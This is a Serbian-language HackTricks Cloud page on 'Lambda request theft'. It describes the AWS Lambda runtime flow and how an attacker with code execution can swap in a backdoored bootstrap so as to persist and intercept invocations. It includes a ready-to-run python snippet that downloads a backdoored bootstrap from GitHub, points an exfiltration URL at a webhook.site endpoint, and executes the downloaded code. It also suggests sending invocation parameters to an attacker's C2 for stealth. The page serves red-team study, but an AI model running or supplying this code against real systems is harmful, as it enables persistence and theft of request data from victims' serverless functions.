 # AWS - Krađa Lambda Zahteva

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces izvan kontejnera koji **šalje** **pozive** ka **init** procesu.
2. Init proces sluša na portu **9001** izlažući neke zanimljive krajnje tačke:
* **`/2018-06-01/runtime/invocation/next`** – dobija sledeći događaj poziva
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vraća odgovor handlera za poziv
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vraća grešku izvršenja
3. **bootstrap.py** ima petlju koja dobija pozive od init procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje init-u **odgovor**

Napomena da bootstrap učitava korisnički kod kao modul, tako da se svako izvršenje koda od strane korisničkog koda zapravo dešava u ovom procesu.

## Krađa Lambda Zahteva

Cilj ovog napada je da se korisnički kod izvrši zlonamerni **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjivi zahtev. Na ovaj način, **zlonamerni bootstrap** proces će početi **komunicirati sa init procesom** da obrađuje zahteve dok je **legitimni** bootstrap **zarobljen** izvršavajući zlonamerni, tako da neće tražiti zahteve od init procesa.&#x20;

Ovo je jednostavan zadatak jer se kod korisnika izvršava od strane legitimnog **`bootstrap.py`** procesa. Tako da napadač može:

* **Poslati lažni rezultat trenutnog poziva init procesu**, tako da init misli da bootstrap proces čeka više poziva.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**&#x20;
* invoke-id se može dobiti iz steka legitimnog **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao što je [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ili jednostavno ponovo zatražiti od **`/2018-06-01/runtime/invocation/next`** (kao što je [predloženo ovde](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Izvršiti zlonamerni **`boostrap.py`** koji će obrađivati sledeće pozive
* Zbog prikrivenosti moguće je poslati parametre lambda poziva na C2 pod kontrolom napadača i zatim obrađivati zahteve kao obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutnog lambda poziva.

### Koraci Napada

1. Pronađite **RCE** ranjivost.
2. Generišite **zlonamerni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Izvršite** zlonamerni bootstrap.

Ove akcije možete lako izvesti pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija pogledajte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hacking trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

